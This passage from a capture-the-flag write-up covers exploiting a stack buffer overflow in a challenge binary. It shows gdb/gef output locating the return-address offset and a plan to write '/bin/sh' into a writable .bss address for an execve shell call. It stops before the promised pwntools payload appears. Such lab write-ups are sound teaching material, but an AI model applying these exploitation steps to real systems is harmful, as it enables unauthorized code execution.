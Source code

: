 ```r
As a token of appreciation, how about pwning me?

Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x4005d4 in vulnerable (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005d4 → vulnerable()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x00000000004005d4 in vulnerable ()
gef➤  x/xg $rsp
0x7fffffffde38:	0x6161616161616166
gef➤  pattern search 0x6161616161616166
[+] Searching '0x6161616161616166'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
gef➤  
```

Now, since we control over the RIP, time to use a `.bss` address to read string `/bin/sh` which we will be passed to first argument of `execve` later on.

### Storing `/bin/sh` at a `.bss` address

Since, we want to do `execve("/bin/sh", 0, 0)` but we don't have any memory which already have `/bin/sh` address, so what we gonna do is pick an address from `.bss` section and store the string at that particular address. Now, let's make a `pwntools` script to interact with binary and work with it, but firstly let's pick a `.bss` address with the help of `gdb`.

```r
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /tmp/ctf/pwn1/chall
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /tmp/ctf/pwn1/chall
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /tmp/ctf/pwn1/chall # I randomly picked an address from this range.
gef➤  r
Starting program: /tmp/ctf/pwn1/chall 
Welcome to the world of Pwning
I'd like to know the name of brave warrior
hello
As a token of appreciation, how about pwning me?
^C
Program received signal SIGINT, Interrupt.
[ Legend: Modified register | Code | Heap | Stack | String ]
```
Now, since we know that this binary contains a `rw-` data section, we will use it to store the `/bin/sh` at it. Let's start interacting with binary and send payload:-
